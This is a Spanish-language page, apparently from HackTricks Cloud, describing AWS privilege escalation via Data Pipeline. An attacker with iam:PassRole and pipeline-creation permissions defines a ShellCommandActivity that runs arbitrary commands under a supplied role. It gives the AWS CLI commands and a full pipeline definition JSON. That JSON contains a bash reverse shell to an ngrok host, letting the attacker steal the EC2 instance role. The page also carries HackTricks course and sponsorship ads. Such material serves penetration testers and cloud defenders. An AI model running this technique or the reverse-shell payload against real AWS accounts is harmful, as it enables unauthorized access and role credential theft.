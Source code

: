 # AWS - Escalación de Privilegios en Datapipeline

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## datapipeline

Para más información sobre datapipeline, consulta:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Un atacante con los permisos `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition` y `datapipeline:ActivatePipeline` podría escalar privilegios **creando un pipeline y actualizándolo para ejecutar un comando arbitrario de AWS CLI o crear otros recursos**, ya sea una vez o en intervalos, con los permisos del rol que se haya proporcionado.
```bash
aws datapipeline create-pipeline --name my_pipeline \
--unique-id unique_string
```
Lo cual creará un pipeline vacío. Luego, el atacante necesita **actualizar la definición del pipeline** para indicarle qué hacer, con un comando como este:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Tenga en cuenta que el **role** en las **líneas 14, 15 y 27** debe ser un rol **asumible por datapipeline.amazonaws.com** y el rol en la **línea 28** debe ser un **rol asumible por ec2.amazonaws.com con un perfil de instancia EC2**.

Además, la instancia EC2 solo tendrá acceso al rol asumible por la instancia EC2 (por lo que solo puede robar ese).
{% endhint %}
```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
--pipeline-definition file:///path/to/my/pipeline/definition.json
```
Donde el **archivo de definición del pipeline contiene una directiva para ejecutar un comando** o crear recursos utilizando la API de AWS que podría ayudar al atacante a obtener privilegios adicionales.

**Impacto Potencial:** Privesc directo al rol de servicio ec2 especificado.

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
